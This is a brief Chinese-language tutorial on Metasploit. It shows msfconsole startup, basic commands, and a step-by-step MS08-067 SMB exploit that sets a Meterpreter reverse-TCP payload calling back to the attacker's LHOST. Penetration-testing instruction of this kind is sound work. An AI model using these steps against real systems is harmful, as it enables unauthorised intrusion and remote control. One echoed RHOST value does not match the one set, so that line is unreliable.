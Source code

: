 001.metasploit使用简介
---

##启动metasploit
```bash
root@kali:~# msfconsole
```

```                                              
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with
Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.11.5-2016010401                   ]
+ -- --=[ 1517 exploits - 875 auxiliary - 257 post        ]
+ -- --=[ 437 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
```
###基本命令
```bash
msf > help
```

```bash
msf > show
```

```bash
msf > clear
```
###设置选项并攻击
```bash
msf > use exploit/windows/smb/ms08_067_netapi 
```

```
msf exploit(ms08_067_netapi) > show options
```

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.1.3
RHOST => 219.225.51.172
```

```
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```

```
msf exploit(ms08_067_netapi) > show options
```

```bash
msf exploit(ms08_067_netapi) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
```

```bash
msf exploit(ms08_067_netapi) > exploit
```
